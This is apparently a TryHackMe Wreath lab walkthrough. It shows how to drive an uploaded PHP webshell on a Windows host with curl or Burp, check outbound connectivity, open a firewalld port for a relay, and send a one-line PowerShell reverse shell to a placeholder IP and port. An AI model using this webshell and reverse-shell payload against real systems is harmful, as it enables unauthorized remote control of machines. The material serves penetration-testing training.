 In the previous task we had a look through the source code of the exploit we found, identified the lines which needed to be updated, then made the necessary changes.

It is now time to run the exploit!  
![Exploit PoC in action!](https://assets.tryhackme.com/additional/wreath-network/d7bd5d950eae.png)  

Success!

Not only did the exploit work perfectly, it gave us command execution as NT AUTHORITY\SYSTEM, the highest ranking local account on a Windows target.

From here we want to obtain a full reverse shell. We have two options for this:

1. We could change the command in the exploit and re-run the code
2. We could use our knowledge of the script to leverage the same webshell to execute more commands for us, without performing the full exploit twice

Option number two is a lot quieter than option number 1, so let's use that.

---

The webshell we have uploaded responds to a POST request using the parameter "`a`" (by default). This means that we have two easy ways to access this. We could use cURL from the command line, or BurpSuite for a GUI option.

**With cURL:**  
`curl -X POST http://IP/web/exploit-USERNAME.php -d "a=COMMAND"`  

![Using cURL to activate the webshell, gaining the same result as in the previous screenshot](https://assets.tryhackme.com/additional/wreath-network/c4fb965ea6f5.png)

_**Note:** in this screenshot,_ `gitserver.thm` _has been added to the_ `/etc/hosts` _file on the attacking machine, mapped to the target IP address._  

**With BurpSuite:**  
We first turn on our Burp proxy (see the [Burpsuite room](https://tryhackme.com/room/rpburpsuite) if you need help with this!) and navigate to the exploit URL:  
![Capturing a request with BurpSuite](https://assets.tryhackme.com/additional/wreath-network/3b9c350a53d8.png)

We then press `Ctrl + R` to send the request to Repeater on the top menu.  

Next we change the "GET" on line 1 to "POST". We then add a `Content-Type` header on line 9 to tell the server to accept POST paramters:  
`Content-Type: application/x-www-form-urlencoded`  

Finally, on line 11 we add `a=COMMAND`:  
![The altered request with POST, the content-type header, and the payload (a=whoami) highlighted](https://assets.tryhackme.com/additional/wreath-network/640de3e036a9.png)  

Press send, and see the response come in!  
![Activated the webshell with Burpsuite](https://assets.tryhackme.com/additional/wreath-network/063482e92f8b.png)  

---

With two methods available, pick your favourite and we'll aim for a shell!

---

**Answer the questions below**

**Bonus Question (Optional):** Using the given code for the exploit we used against the web server, see if you can adapt this exploit to create a full pseudoshell environment.

First up, let's use some basic enumeration to get to grips with the webshell:

What is the hostname for this target?

What operating system is this target?

What user is the server running as?

Before we go for a reverse shell, we need to establish whether or not this target is allowed to connect to the outside world. The typical way of doing this is by executing the `ping` command on the compromised server to ping our own IP and using a network interceptor (Wireshark, TCPDump, etc) to see if the ICMP echo requests make it through. If they do then network connectivity is established, otherwise we may need to go back to the drawing board.

To start up a TCPDump listener we would use the following command:  
`tcpdump -i tun0 icmp`  

_**Note:** if your VPN is not using the tun0 interface then you will need to replace this with the correct interface for your system which can be found using_ `ip -a link` _to see the available interfaces._

Now, using the webshell, execute the following ping command (substituting in your own VPN IP!):  
`ping -n 3 ATTACKING_IP   `

This will send three ICMP ping packets back to you.

How many make it to the waiting listener?

Looks like we're going to need to think outside the box to catch this shell.

We have two easy options here:

- Given we have a fully stable shell on .200, we could upload a static copy of [netcat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat) and just catch the shell here
- We could set up a relay on .200 to forward a shell back to a listener

It is up to you which option you choose (although for the sake of practice, a socat relay is suggested); however, whichever way you choose, please be mindful of other users at earlier stages of the network and **ensure that any ports you open are above 15000.**

Before we can do this, however, we need to take one other thing into account. CentOS uses an always-on wrapper around the IPTables firewall called "firewalld". By default, this firewall is extremely restrictive, only allowing access to SSH and anything else the sysadmin has specified. Before we can start capturing (or relaying) shells, we will need to open our desired port in the firewall. This can be done with the following command:  
`firewall-cmd --zone=public --add-port PORT/tcp`  
Substituting in your desired choice of port.

In this command we are using two switches. First we set the zone to public -- meaning that the rule will apply to every inbound connection to this port. We then specify which port we want to open, along with the protocol we want to use (TCP).  

With that done, set up either a listener or a relay on .200.  

Let's go for a reverse shell!

We can use a Powershell reverse shell for this. Take the following shell command and substitute in the IP of the webserver, and the port you opened in the `.200` firewall in the previous question where it says IP and PORT:  
`powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`  

As this is a web exploit, we now have to URL encode the shell command. If using Burpsuite, you can do this by pasting the command in as the value for the "a" parameter, then selecting it and pressing Ctrl + U:  
![Using Burpsuite to encode the payload with Ctrl + U](https://assets.tryhackme.com/additional/wreath-network/f670383bd3e5.png)

If you are using cURL then there are a variety of options available. cURL does provide a `--data-urlencode` switch; however, it's often easiest to just use a [website](https://www.urlencoder.org/) to encode the shell command, then copy it in with the `-d` switch:  
![Sending the payload with cURL](https://assets.tryhackme.com/additional/wreath-network/be3ea7bf0fe6.png)  

Pick a method (cURL, BurpSuite, or any others) and get a shell!
